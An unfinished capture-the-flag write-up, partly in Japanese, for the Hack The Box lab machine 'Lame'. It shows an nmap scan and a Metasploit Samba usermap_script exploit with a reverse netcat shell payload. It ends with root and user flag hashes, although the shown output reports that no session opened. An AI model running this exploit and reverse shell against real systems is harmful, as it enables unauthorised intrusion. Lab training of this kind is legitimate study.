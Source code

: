 Unfinished
# How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.3`
<details><summary>nmap 実行結果</summary>

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 01:18 JST   
Nmap scan report for lame.htb (10.10.10.3)   
Host is up (0.26s latency).   
Not shown: 996 filtered ports   
PORT    STATE SERVICE     VERSION   
21/tcp  open  ftp         vsftpd 2.3.4   
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)   
| ftp-syst:    
|   STAT:    
| FTP server status:   
|      Connected to 10.10.14.11   
|      Logged in as ftp   
|      TYPE: ASCII   
|      No session bandwidth limit   
|      Session timeout in seconds is 300   
|      Control connection is plain text   
|      Data connections will be plain text   
|      vsFTPd 2.3.4 - secure, fast, stable   
|_End of status   
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)   
| ssh-hostkey:    
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)   
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)   
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)   
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)   
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel   
   
Host script results:   
|_clock-skew: mean: 2h31m02s, deviation: 3h32m10s, median: 1m00s   
| smb-os-discovery:    
|   OS: Unix (Samba 3.0.20-Debian)   
|   Computer name: lame   
|   NetBIOS computer name:    
|   Domain name: hackthebox.gr   
|   FQDN: lame.hackthebox.gr   
|_  System time: 2021-02-07T11:19:35-05:00   
| smb-security-mode:    
|   account_used: guest   
|   authentication_level: user   
|   challenge_response: supported   
|_  message_signing: disabled (dangerous, but default)   
|_smb2-time: Protocol negotiation failed (SMB2)   
   
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .   
Nmap done: 1 IP address (1 host up) scanned in 69.98 seconds   
</details>

###  Summary
PORT    STATE SERVICE     VERSION   
21/tcp  open  ftp         vsftpd 2.3.4   
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)   
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)   
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)   

## 




msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.16.171:4444 
[*] Exploit completed, but no session was created.

## 
/home/makis
cat user.txt
a389b0de2070fe13684237564f6bebfc


cd /root
cat root.txt
cabcb75b9fa627b4759a757d920a9f68

